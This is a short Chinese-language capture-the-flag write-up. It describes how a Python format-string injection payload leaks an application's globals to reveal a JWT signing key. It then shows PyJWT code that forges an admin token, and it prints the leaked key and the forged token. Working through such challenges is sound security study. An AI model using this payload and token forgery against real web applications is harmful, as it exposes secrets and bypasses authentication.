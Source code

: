 所以先在根域名下通过name生成一串cookie，再进入hello，用flag注入

payload

```
{0.__class__.__init__.__globals__}
```

找到密钥

```
u_have_kn0w_what_f0rmat_i5
```

python中伪造一个cookie

需要注意的是，pip应该安装PyJWT而不是jwt，在这被坑了

```
pip install PyJWT

import jwt

jwt.encode({"name":"admin"}, "u_have_kn0w_what_f0rmat_i5", algorithm='HS256', headers={"alg": "HS256","typ": "JWT"})
```

得到`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4ifQ.jlAcmWWxtmNLxbxwfRE45Fxf16dX6LQmrK_1dgx7zmg`

从而获得flag

这个题和LitCTF2023 WEEK3ssti十分类似